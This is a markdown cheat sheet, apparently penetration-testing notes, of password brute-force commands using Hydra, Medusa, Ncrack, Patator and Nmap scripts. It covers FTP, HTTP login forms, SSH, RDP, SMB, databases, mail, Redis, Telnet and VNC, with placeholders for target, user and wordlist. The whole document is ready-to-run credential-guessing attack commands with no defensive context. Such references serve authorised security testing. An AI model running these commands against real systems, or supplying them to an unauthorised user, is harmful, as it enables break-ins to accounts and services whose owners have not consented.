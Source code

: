 # Tools

- Hydra
- Nmap
- John
- Medusa
- Patator
- Ncrack

---

# FTP

```shell
hydra -l <user> -P <wordlist> <IP_ADDR> ftp
ncrack -p 21 --user <user> -P <wordlist> <IP_ADDR>
medusa -u <user> -P <wordlist> -h <IP_ADDR> -M ftp
```


# HTTP Basic Auth

```shell
hydra -l <user> -P <wordlist> <URL> http-get <direction>
```

# HTTP POST Form

```shell
hydra -l <user> -P <wordlist> <URL>  http-post-form "/login.php:user=^USER^&password=^PASS^&submit=Login:Username or password is incorrect!"
```

# SSH

```shell
hydra -l <user> -P <wordlist> ssh://<IP_ADDR>
ncrack -p 22 --user <user> -P <wordlist> <IP_ADDR>
medusa -u <user> -P <wordlist> -h <IP_ADDR> -M ssh
```

# SNMP

```shell
nmap -sU --script snmp-brute --script-args snmp-brute.communitiesdb=<wordlist> <IP_ADDR>
hydra -P <wordlist> <IP_ADDR> snmp
```

# RDP

```shell
hydra -l <user> -P <wordlist> rdp://<IP_ADDR>
ncrack --user <user> -P <wordlist> rdp://<IP_ADDR>
```

# LDAP

```shell
nmap -p 389 --script ldap-brute <IP_ADDR>
hydra -l <user> -P <wordlist> <IP_ADDR> ldap2
```

# MongoDB

```shell
nmap -p 27017 --script mongodb-brute <IP_ADDR>
```

# MySQL

```shell
hydra -l <user> -P <wordlist> <IP_ADDR> mysql
```

# PostgreSQL

```shell
nmap -p 5432 --script pgsql-brute --script-args userdb=<user_file>,passdb=<wordlist> <IP_ADDR>
hydra -l <user> -P <wordlist> <IP_ADDR> postgres
medusa -u <user> -P <wordlist> -h <IP_ADDR> -M postgres
ncrack --user <user> -P <wordlist> <IP_ADDR>:5432
patator pgsql_login host=<IP_ADDR> user=FILE0 0=<user_file> password=FILE1 1=<wordlist>
```

# POP3

```shell
hydra -l <user> -P <wordlist> <IP_ADDR> pop3
```

# Redis

```shell
nmap -p 6379 --script redis-brute <IP_ADDR>
hydra -P <wordlist> <IP_ADDR> redis
```

# SMB

```shell
nmap -p 445 --script smb-brute <IP_ADDR>
hydra -l <user> -P <wordlist> <IP_ADDR> smb
```

# Telnet

```shell
hydra -l <user> -P <wordlist> <IP_ADDR> telnet
ncrack -p 23 --user <user> -P <wordlist> <IP_ADDR>
medusa -u <user> -P <wordlist> -h <IP_ADDR> -M telnet
```

# VNC

```shell
hydra -l <user> -P <wordlist> -s <PORT> <IP_ADDR> vnc
medusa -u <user> -P <wordlist> -h <IP_ADDR> -M vnc
ncrack --user <user> -P <wordlist> <IP_ADDR>:<PORT>
```

# SMTP

```shell
hydra -P <wordlist> <IP_ADDR> smtp
```

